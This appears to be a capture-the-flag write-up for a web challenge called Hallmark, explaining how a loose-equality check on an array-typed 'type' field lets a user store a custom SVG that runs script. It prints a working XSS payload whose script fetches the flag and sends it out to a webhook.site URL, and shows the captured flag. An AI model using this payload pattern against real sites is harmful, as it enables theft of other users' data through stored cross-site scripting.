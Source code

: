 # Hallmark
Category: web
Requires: xss, javascript knowledge (and some svg knowledge ig)

(wasn't solved during event, this is just my proecdure after reading a few writeups)

Looking through the source code of the server, it does not seem that we are able to directly xss it from just the `POST /flag` 
However there is the `PUT /flag` route for the challenge that allows us to potentially edit a card's content:
```js
app.put('/card', (req, res) => {
    let { id, type, svg, content } = req.body;

    if (!id || !cards[id]) {
        res.send('bad id');
        return;
    }

    cards[id].type = type == 'image/svg+xml' ? type : 'text/plain';
    cards[id].content = type === 'image/svg+xml' ? IMAGES[svg || 'heart'] : content;

    res.send('ok');

});
```
We also see that we can pass rich objects and arrays into the request since `extended: true`:
```js
app.use(bodyParser.urlencoded({ extended: true }));
```
We want the type to be `image/svg+xml` so that it renders as an svg allowing it to run the `<script></script>` in the svg, but we want to input our own svg. We simply set the `type` to be `["image/svg+xml"]` since:
```js
> ['a'] == 'a'
True
> ['a'] === 'a'
False
```
so we first create a pre-existing card, then we send the following request on https://hoppscotch.io:
Request Body:
| Parameter | Value                                                                                                                                                                                                                              |
| --------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `id`        | `[your id]`                                                                                                                                                                                                                          |
| `type[]`  | `image/svg+xml` - inputs an array into the server                                                                                                                                                                                                                  |
| `content`   | `<svg version="1.1" width="300" height="200" xmlns="http://www.w3.org/2000/svg"><script>fetch('/flag').then(r=>r.text()).then(d=>window.location="https://webhook.site/63b5be4d-5111-467d-8572-18702c2e7b00?c="+d)</script></svg>` |

its simply an svg:
```xml
<svg version="1.1" width="300" height="200" xmlns="http://www.w3.org/2000/svg"><script></script></svg>
```
with a fetch
```js
fetch('/flag').then(r=>r.text()).then(d=>window.location="https://webhook.site/blahblah?c="+d)
```
now we submit this to the admin site and in our webhook we see:
`actf{the_adm1n_has_rece1ved_y0ur_card_cefd0aac23a38d33}`
